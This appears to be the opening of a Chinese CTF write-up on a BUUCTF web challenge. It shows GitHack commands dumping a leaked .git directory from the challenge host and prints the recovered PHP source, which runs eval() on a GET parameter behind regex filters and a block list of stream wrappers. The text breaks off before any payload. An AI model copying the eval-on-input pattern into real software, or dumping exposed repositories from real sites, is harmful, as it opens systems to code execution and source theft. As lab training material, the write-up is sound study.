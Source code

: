```yaml
---
title: BUU_WEB刷题_0x20-0x2F
date: 2021-09-12 
tags: WEB
categories: Technology
---
```


[toc]

# 0x20.[GXYCTF2019]禁止套娃

>    考点是无参数RCE先贴两个链接：
>
>   https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E4%BB%80%E4%B9%88%E6%98%AF%E6%97%A0%E5%8F%82%E6%95%B0%E5%87%BD%E6%95%B0RCE
>
>   http://www.heetian.com/info/827



找了半天没发现啥，看wp说是git泄露，然后

```shell
┌──(kali㉿kali)-[~/GitHack]
└─$ python GitHack.py  http://25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn:81/
[+] Download and parse index file ...
error: Not a Git index file
                                                                                                                                              
┌──(kali㉿kali)-[~/GitHack]
└─$ python GitHack.py  http://25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn:81/.git                                                 1 ⨯
[+] Download and parse index file ...
index.php
[OK] index.php
                                                                                                                                              
┌──(kali㉿kali)-[~/GitHack]
└─$ python GitHack.py  http://25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn:81/.gitls
[+] Download and parse index file ...
error: Not a Git index file
                                                                                                                                              
┌──(kali㉿kali)-[~/GitHack]
└─$ ls                                                                                                                                    1 ⨯
25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn_81  GitHack.py  index  lib  README.md
                                                                                                                                              
┌──(kali㉿kali)-[~/GitHack]
└─$ cd 25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn_81 
                                                                                                                                              
┌──(kali㉿kali)-[~/GitHack/25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn_81]
└─$ ls
index.php
                                                                                                                                              
┌──(kali㉿kali)-[~/GitHack/25ced3f5-75c8-4ac6-9d2c-9097371101ca.node4.buuoj.cn_81]
└─$ cat index.php                                            
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
```